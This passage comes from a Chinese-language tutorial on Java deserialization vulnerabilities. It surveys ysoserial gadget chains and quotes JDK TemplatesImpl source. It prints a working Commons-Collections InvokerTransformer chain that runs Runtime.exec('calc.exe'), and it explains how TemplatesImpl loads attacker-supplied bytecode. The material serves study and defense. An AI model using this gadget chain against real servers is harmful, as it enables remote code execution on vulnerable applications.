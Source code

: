  ```Java

  }
  ```

  以上代码就在我们进行反序列化的过程中调用了我们的计算器

## 漏洞组合盘点

Java 的反序列化漏洞,涉及的范围相当的广泛，以上的例子仅仅是其中的一部分,有的漏洞已经修复了，有的漏洞依然是可以工作的，借此我们将以[ysoserial](https://github.com/frohoff/ysoserial)中涉及到的部分漏洞进行分析和组合，试图从一个更广泛的角度来分析 Java 反序列化漏洞的涉及面

* ### 恶意代码包装

  * **Transformer**

    | 工具类              | 提供者                  |
    | ------------------- | ----------------------- |
    | Transformer         | Commons-collections 3.1 |
    | ChainedTransformer  | Commons-collections 3.1 |
    | ConstantTransformer | Commons-collections 3.1 |
    | InvokerTransformer  | Commons-collections 3.1 |

    使用方式

    ```java
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe",}),
    };
    Transformer transformerChain = new ChainedTransformer(transformers);
    ```

  * **xlan**

  介绍
  xlan 是 Java 中内置的一个包(原来是 apache 的,后来并入 Jdk 中变成 com.sun 开头)，是 JAXP 的一部分，用来处理 XML 的,此次的恶意代码利用的是该包内的部分类进行的。原理
  xlan 中有一个类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`,该类可以让我们向目标服务器传输一段 java 字节码,并可以在特定的方法下利用该字节码来生成一个 java 对象，这个类最初的设计目标作者目前尚未弄明白，但是这个类的的功能却可以让我们远程加载一个 java 类，使得恶意的代码可以被运行。

  [TemplatesImpl](http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/8u40-b25/com/sun/org/apache/xalan/internal/xsltc/trax/TemplatesImpl.java#TemplatesImpl) 主要代码如下

  ```java
  public final class TemplatesImpl implements Templates, Serializable {
    static final long serialVersionUID = 673094361519270707L;
    public final static String DESERIALIZE_TRANSLET = "jdk.xml.enableTemplatesImplDeserialization";

    /**
    * Name of the superclass of all translets. This is needed to
    * determine which, among all classes comprising a translet,
    * is the main one.
    */
    private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

    /**
    * Name of the main class or default name if unknown.
    */
    private String _name = null;

  ```
